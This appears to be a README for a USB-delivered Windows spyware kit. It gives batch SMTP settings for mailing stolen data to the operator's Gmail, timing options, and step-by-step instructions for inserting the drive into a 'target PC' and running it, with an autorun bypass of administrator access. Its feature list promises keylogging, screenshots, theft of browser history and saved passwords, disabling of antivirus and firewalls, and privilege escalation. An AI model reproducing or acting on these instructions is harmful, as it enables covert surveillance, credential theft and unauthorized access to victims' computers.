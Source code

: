 Downloads the files and follow the step by step procedure!!!!!!

Open the script.bat file in a text editor and update it with your email and password where you want to receive the data. 
Set SMTP Configuration for Email Sending
:: Set SMTP configuration for email sending
set "smtp_server=smtp.gmail.com"
set "smtp_port=587"
set "smtp_user=your_email@gmail.com"
set "smtp_password=your_password"
set "recipient_email=recipient_email@gmail.com"

This tool is designed to stealthily capture and transmit sensitive user information, such as keystrokes, screenshots, browser history, and passwords, after a specified time, send the data to your Gmail account. 
You can change the time period for which you will receive data. By default, it is set to 30 minutes.
For 15 minutes:
timeout /t 900 /nobreak
For 1 hour:
timeout /t 3600 /nobreak
For 2 hours:
timeout /t 7200 /nobreak

Ensure that the timing and email configuration are correctly set up in the scrip

Copy files to a USB drive. Ensure all required files are included for the script to function correctly.

Insert the USB drive into the target PC.

Run the Script

In case the script.bat does not run automatically, manually double-click the file to execute it. After the initial run, it should work perfectly.
If autorun doesn't work, you can also run the autorun_enable file to bypass all administrator access and enable autorun.

Enjoy!!!!!!!!!

All-in-One Solution

The key functionalities of my project include:

1. Keylogging: Captures all keystrokes made by the user, providing a detailed log of their activities.
2. Screenshot Capture: Periodically takes screenshots of the user's screen to visually document their activities.
3. Browser History and Password Collection: Extracts browsing history and stored passwords from popular web browsers, giving a comprehensive view of the user's online behavior.
4. Disabling Antivirus and Firewalls: Identifies and disables active antivirus programs and firewalls to avoid detection and ensure uninterrupted operation.
5. Bypassing Administrator Access: Exploits vulnerabilities to gain elevated privileges, allowing the tool to operate with minimal restrictions.
6. Data Transmission via SMTP: Sends the collected data to a specified email address using SMTP, ensuring that the information is securely delivered to the attacker.
